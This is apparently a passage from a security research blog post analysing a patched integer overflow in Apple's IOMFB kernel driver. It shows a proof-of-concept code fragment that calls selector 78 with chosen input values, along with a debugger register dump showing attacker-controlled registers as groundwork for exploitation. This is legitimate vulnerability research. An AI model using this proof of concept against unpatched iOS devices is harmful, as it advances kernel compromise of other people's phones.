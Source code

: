 The POC works on iOS 15.0 with the exact same panic as well (tested on a virtual iPhone 11 Pro, iOS 15.0):

![](https://github.com/saaramar/IOMFB_integer_overflow_poc/raw/main/docs/assets/corellium_11_pro.png)

An interesting important note is that other implementations of these functions in other classes also had this integer overflow. As far as I can see, the patch fixed these as well. This is not a surprise, because usually when we see a code pattern repeats itself, it’s an inline function / macro / etc.

Exploitation[](#exploitation)
-----------------------------

I just bindiffed the bug, so there will be no full exploit in this blogpost; However, we can still discuss the exploitation of wildcopies in general and improve the POC to set the ground for exploitation :) But before we start talking about wildcopies, let me just share some POCs that give us better control on the flow and trigger a good panic.

### Control the operands[](#control-the-operands)

First, let set arbitrary values in the offsets the operands are taken from (instead of setting 0x41s in the entire input). Nothing exciting here; it’s just reversing of the caller function of _IOMFB::TableCompensator::BilerpGainTable::new_from_data_. The updated part in the POC:

```
...
    memset(input, 0x0, input_size);
    int *pArr = (int*)input;

    pArr[0] = 0x3;          // sub-sub selector
    pArr[1] = 0xffffffff;   // has to be non-zero
    pArr[2] = 0x41414141;
    pArr[3] = 0x42424242;
    pArr[8] = 0x43434343;
    pArr[89] = 0x44444444;
    
    ret = IOConnectCallMethod(iomfb_uc, 78,
                        scalars, 2,
                        input, input_size,
                        NULL, NULL,
                        NULL, NULL);
...


```

Which gives the following registers (for the same stub as above, virtual iPhone 11 Pro, iOS 14.7.1):

```
(lldb) reg read
General Purpose Registers:
        x0 = 0xffffffe4cbaa4420
        x1 = 0x0000000000000060
        x2 = 0x0000000000000020
        x3 = 0x0000000000000060
        x4 = 0x0000000000000000
        x5 = 0x0000000043434343 // <-- controlled
        x6 = 0xfffffff00991adac
        x7 = 0x0000000000006eb1
        x8 = 0x0000000044444444 // <-- controlled
        x9 = 0x000000000000000b
       x10 = 0xffffffe802224000
       x11 = 0x3ffffff932ea900b
       x12 = 0x0000000000000000
       x13 = 0x00000000000001dc
       x14 = 0x0000000000003320
```